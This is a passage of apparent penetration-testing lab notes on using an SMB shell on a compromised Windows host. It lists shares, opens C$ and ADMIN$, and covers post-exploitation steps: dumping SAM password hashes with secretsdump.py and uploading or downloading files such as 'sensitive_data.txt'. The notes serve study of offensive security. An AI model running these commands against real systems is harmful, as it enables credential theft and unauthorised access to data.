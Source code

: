     - This opens an SMB client shell connected to the target machine.
        
        ![[/image 20 3.png|image 20 3.png]]
        
3. **Available Commands in the SMB Shell**:
    - **View Available Shares**:
        
        ![[/image 21 3.png|image 21 3.png]]
        
        ```Shell
        shares
        ```
        
    - **Access Specific Share**:
        
        ```Shell
        use C$
        ```
        
    - **List Directory Contents**:
        
        ```Shell
        ls
        ```
        
    - **Navigate to Admin Directory**:
        
        ```Shell
        use ADMIN$
        ls
        ```
        
    - You now have full access to the target's filesystem, including critical directories like `C:\\Windows\\System32`.
        
        ![[/image 22 3.png|image 22 3.png]]
        

### 5. Optional **Post-Exploitation Options**

Once inside the interactive SMB shell, several post-exploitation techniques can be applied:

- **Dump SAM Hashes** (local user credentials):
    
    ```Shell
    secretsdump.py -hashes lmhash:nthash target_ip
    ```
    
- **Upload/Download Files**:
    - **Put File**: Upload a file from your machine to the target.
        
        ```Shell
        put myfile.txt
        ```
        
    - **Get File**: Download a file from the target to your machine.
        
        ```Shell
        get sensitive_data.txt
        ```
        